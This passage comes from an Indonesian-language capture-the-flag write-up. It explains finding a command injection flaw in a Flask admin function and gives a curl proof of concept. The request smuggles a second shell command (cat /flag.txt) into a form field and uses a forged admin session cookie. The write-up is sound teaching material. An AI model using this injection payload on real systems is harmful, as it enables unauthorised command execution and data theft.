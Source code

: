 {% endcode %}

<figure><img src=".gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

* Setelah berhasil login sebagai admin, saya coba baca lagi source code flask-nya. Awalnya, saya berpikir jika di fungsi `query_database` adalah kerentanan _SQL Injection_, tapi ternyata saya salah. Itu merupakan kerentanan _**Command Injection**_. Langsung saja saya craft payloadnya dan coba kirim request tersebut via cURL menggunakan cookie admin yang sudah di-generate sebelumnya.
* Berikut adalah POC untuk get flag-nya:

{% code title="solver.sh" %}
```bash
curl -X POST -d "oshi_name=freya\"; cat /flag.txt; echo #" --cookie "session=eyJyb2xlIjoiYWRtaW4ifQ.ZrbXaQ.9CjlFr995lsT5RjKbe9D_6t4kMg" http://146.190.104.208:7012/admin
```
{% endcode %}

<figure><img src=".gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>
